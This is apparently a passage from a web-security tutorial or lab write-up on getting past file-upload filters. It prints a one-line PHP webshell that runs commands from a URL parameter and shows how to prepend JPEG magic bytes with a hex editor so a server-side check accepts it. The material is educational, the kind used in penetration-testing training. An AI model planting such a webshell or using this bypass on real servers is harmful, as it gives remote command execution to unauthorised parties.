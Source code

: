 <figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_1.png" alt=""><figcaption><p>Figure 5: The server-side filter does not allow us to upload our webshell.</p></figcaption></figure>

We can try adding the [`JPG` magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to our webshell using a tool such as `hexedit` or [`hexeditor`](https://www.kali.org/tools/ncurses-hexedit/) (Figure 6), which might trick the system into uploading it.

```bash
# original webshell
$ cat webshell.php
<?php system($_GET['cmd']); ?>
# system recognizes as a PHP script
$ file webshell.php
webshell.php: PHP script, ASCII text
$ file --mime-type webshell.php
../user-content/webshell.php: text/x-php
# add 4 random bytes at the start of it
$ cat webshell.php
AAAA<?php system($_GET['cmd']); ?>
# change the 4 bytes to FF D8 FF E0
$ hexeditor webshell.php
```

<figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_2.png" alt=""><figcaption><p>Figure 6: Editing the file's magic bytes.</p></figcaption></figure>
